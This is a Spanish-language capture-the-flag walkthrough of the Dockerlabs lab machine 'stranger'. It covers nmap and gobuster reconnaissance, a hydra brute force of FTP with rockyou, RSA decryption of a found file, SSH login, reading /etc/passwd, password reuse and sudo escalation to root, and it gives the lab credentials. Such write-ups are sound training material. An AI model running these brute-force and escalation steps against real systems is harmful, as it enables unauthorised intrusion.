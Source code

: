 Máquina "stranger" de [Dockerlabs](https://dockerlabs.es)

Autor: kaikoperez

Dificultad: Medio

![stranger](./img/stranger.png)

# INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 10000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 31 18:29:34 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 10000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-31 18:29:34 -03 for 16s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:af:01:77:e8:fc:a4:95:85:6b:5c:9c:c7:c1:d3:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEuXjgTSlgC05a3pDvwBTDm3FiWRowMhCqGep4r5wa2QhSJr74w8l+svyfNNnT22bALki5ONkb4o0g4MWIHkQ+Q=
|   256 36:7e:d3:25:fa:59:38:8f:2e:21:f9:f0:28:a4:7e:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOunkftwL6CnjglFfQDcP0NcMIWrGWkbH2iC83ms8jSl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: welcome
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: my; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 18:29:50 2024 -- 1 IP address (1 host up) scanned in 16.37 seconds
```

Como vemos están abiertos los puertos `21,22,80`, en el cual corren  `ftp,ssh,apache` y como vemos ftp no tiene habilitado el login anonimo, por lo que no lo utilizaremos por ahora.

###### PUERTO 80:

![80](./img/80.png)

Tenemos un posible usuario: "mwheeler"

Como no se encuentra nada más, haremos fuzzing web con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 231]
/strange              (Status: 301) [Size: 310] [--> http://172.17.0.2/strange/]
Progress: 46146 / 882244 (5.23%)
===============================================================
Finished
===============================================================
```

Como vemos hay una carpeta strange, pero si entramos no hay nada interesante, por lo que haremos fuzzing pero dentro de la carpeta:

```css
gobuster dir -u http://172.17.0.2/strange -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/strange
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 3040]
/.html                (Status: 403) [Size: 275]
/private.txt          (Status: 200) [Size: 64]
/secret.html          (Status: 200) [Size: 172]
/.html                (Status: 403) [Size: 275]
Progress: 203557 / 882244 (23.07%)
===============================================================
Finished
===============================================================
```

Como vemos hay un `secret.html` que si entramos desde el navegador tiene un mensaje:

![secret](./img/secret.png)

sabiendo eso podemos usar hydra al puerto 21 de ftp con el usuario admin y wordlist la rockyou:

```css
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2
```

![hydra](./img/hydra.png)

Ahora que tenemos un usuario nos conectamos usando  `ftp 172.17.0.2` y ponemos el usuario y contraseña.

Ahora si ejecutamos un `ls` vemos un archivo llamado "private_key.pem", por lo que nos lo guardamos en nuestra maquina atacante usando  `get private_key.pem`. Salimos del ftp y nos descargamos el archivo llamado "private.txt" que encontramos antes en `/strange/private.txt`, el cual si lo miramos, está en un formato ilegible. Ahora como tenemos el .pem podemos ejecutar lo siguiente y ver si es un formato RSA para poder descifrarlo:

```css
openssl rsautl -decrypt -inkey private_key.pem -in private.txt -out output.txt
```

Ahora si leemos el archivo de la salida, tenemos una posible contraseña: "demogorgon"

Ahora nos conectamos por el ssh usando el usuario "mwheeler" y la contraseña "demogorgon".

# ESCALADA DE PRIVILEGIOS

### mwheeler

Si leemos el archivo `/etc/passwd` vemos que también hay un usuario admin como en el ftp, por lo que podemos probar si la contraseña "banana" también sirve. `su admin`

### admin

Siendo el usuario admin, vemos que usamos sh, entonces para estar más comodos ejecutaremos `bash`. Ahora si ejecutamos `sudo -l` y ponemos la contraseña veremos que podemos ejecutar todo como root, asi que solo ponemos `sudo su` y listo, *somos root*.

![root](./img/root.png)

Gracias por leer.